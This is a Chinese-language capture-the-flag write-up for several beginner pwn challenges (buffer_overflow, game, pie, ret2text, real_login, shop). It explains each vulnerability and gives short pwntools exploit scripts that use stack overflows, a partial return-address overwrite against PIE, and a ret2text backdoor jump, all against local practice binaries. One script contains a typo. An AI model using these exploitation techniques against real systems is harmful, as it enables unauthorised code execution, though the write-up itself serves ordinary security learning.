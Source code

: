 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + b'd'

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250115100413.png]]
# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text
取名为ret2text则大概率有后门函数
![[Pasted image 20250116145056.png]]
有明显的栈溢出漏洞，找找后门函数
![[Pasted image 20250116145124.png]]
action不是CET-4 word所以他是后门函数~~找了半天~~ 
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./ret2text")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

# rbp = 0x4011fd

ret = 0x40101a

backdoor = 0x4014ba

  

payload = b'a' * 0x48 + p64(ret) + p64(backdoor)

p.recvuntil("Make a wish: ")

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250116145301.png]]
# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![[Pasted image 20250115155103.png]]
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![[Pasted image 20250115155212.png]]
那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。
![[Pasted image 20250115155407.png]]
可以看到初始钱数为0x64即100。
获取shell：
![[Pasted image 20250115155516.png]]